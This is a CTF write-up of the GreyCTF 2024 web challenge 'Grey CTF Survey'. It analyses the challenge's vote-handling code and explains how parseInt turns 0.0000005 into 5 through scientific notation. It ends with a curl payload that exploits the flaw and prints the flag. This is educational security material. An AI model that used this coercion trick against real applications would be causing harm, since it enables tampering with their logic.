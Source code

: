 ```yaml
---
title: Grey CTF Survey
author: yufong
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 18:09
tags: 
- js/parseInt
details: Improper use of `parseInt` leads to unexpected results	
difficulty: 2
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/greyctf-survey"
img_path: /Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments/
image:
  src: ../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Source Code Analysis

```
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```
>Vulnerability Details:
>[Solving a Mystery Behavior of parseInt() in JavaScript](https://dmitripavlutin.com/parseint-mystery-javascript/)
>- User input, an integer is passed into `parseInt()`, causing an unexpected value.
>- When an integer is passed into `parseInt()` 
>	1. it is converted to a string then into an integer again, 
>	2. if a number gets too large/small, "[Scientific Notation](https://en.wikipedia.org/wiki/Scientific_notation)" is used
>	3. So `0.0000005` turns into `5e-7` (String) and then `5` (int)
{: .prompt-info}

```
String(0.5); // => '0.5'  

String(0.05); // => '0.05'  

String(0.005); // => '0.005'  

String(0.0005); // => '0.0005'  

String(0.00005); // => '0.00005'  

String(0.000005); // => '0.000005'  

String(0.0000005); // => '5e-7' => 5
```



# Solution

```
┌──(root💀kali)-[~/boxes/nusgreyhat/WEB/Grey CTF Survey]
└─$ curl -H "Content-Type: application/json" -d '{"vote":0.0000005}' http://challs.nusgreyhats.org:33334/vote
{"error":false,"msg":"grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}"}   
```



